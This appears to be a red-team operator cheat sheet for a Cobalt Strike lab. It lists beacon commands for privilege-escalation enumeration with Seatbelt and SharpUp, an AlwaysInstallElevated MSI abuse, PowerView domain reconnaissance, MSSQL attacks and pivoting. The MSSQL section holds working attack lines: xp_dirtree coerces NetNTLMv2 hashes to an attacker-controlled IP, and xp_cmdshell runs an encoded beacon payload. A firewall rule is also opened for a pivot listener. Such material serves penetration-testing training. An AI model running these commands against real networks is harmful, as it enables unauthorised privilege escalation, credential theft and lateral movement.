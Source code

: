 # RTO CheatSheet

## Persistence

### COM Hijacking

<TODO>
  
## PrivEsc
  
### Seatbelt
  
https://github.com/GhostPack/Seatbelt
  
Sample usage:
  
> beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=system
  
### SharpUp

https://github.com/GhostPack/SharpUp

Sample usage:
  
> beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
> 
> === Modifiable Services ===
> 
>  Name             : Vuln-Service-2
>
>  DisplayName      : Vuln-Service-2
>
>  Description      : 
>
>  State            : Running
>
>  StartMode        : Auto
>
>  PathName         : "C:\Program Files\Vuln Services\Service 2.exe"

Detects:
  - Modifiable Service
  - AlwaysInstallElevated flags in Registry
  
#### Weaponized

##### AlwaysInstallElevated - Install msi package file

> beacon> run msiexec /i BeaconInstaller.msi /q /n
  
## Domain Enumeration
  
### PowerView
  
#### Setup

> beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
  
#### Usages
  
Retrieve Domain information, parameter is optional:
  
> beacon> powershell Get-Domain -Domain <Domain>

Retrieve Domain Controllers and further Domain information:

> beacon> powershell Get-DomainController | select Forest, Name, OSVersion | fl
  
Retrieve Forest information, parameter is optional:
  
> beacon> powershell Get-ForestDomain -Forest [Forest]
  
Get useful information about domain policies like password policies e.g
  
> beacon> powershell Get-DomainPolicyData | select -ExpandProperty SystemAccess
  
Get User information:
  
> beacon> powershell Get-DomainUser -Identity [username] -Properties DisplayName, MemberOf | fl
  
Get Available Shares (important for lateral movement and GPO Abuses):
  
> beacon> powershell Find-DomainShare -CheckShareAccess
  
## MSSQL
  
### Enum

Import PowerUpSQL

Execute following statements from Domain-User context (AD Authentication on MSSQL hosts):

Enum SQL Instance:

> beacon> powershell Get-SQLInstanceDomain
  
Test connection:

> beacon> powershell Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl

Retrieve additional Instance Information:
 
> beacon> powershell Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"
  
Test execution:

> beacon> powershell Get-SQLQuery -Instance "INSTANCE,1433" -Query "select @@servername"
  
Proxychains for direct connection:
  
> root@kali:~# proxychains python3 /usr/local/bin/mssqlclient.py -windows-auth DOMAIN/USER@TARGET
  
NetNTLMv2 via xp_dirtree (Inveigh on Host in target network, or smbserver on Kali with WinDivert + rportfwd):
  
> beacon> powershell Get-SQLQuery -Instance "INSTANCE,1433" -Query "EXEC xp_dirtree '\\IP\pwn', 1, 1"

Query to execute beacon on the instance directly:

> SELECT * FROM OPENQUERY("[targetserver]", 'select @@servername; exec xp_cmdshell ''powershell -enc [EncodedString]''');

## Pivoting

- Right click on running beacon -> pivoting
- Create pivoting listener (example, port 4444)

add firewall rule:
  
> beacon> run netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444
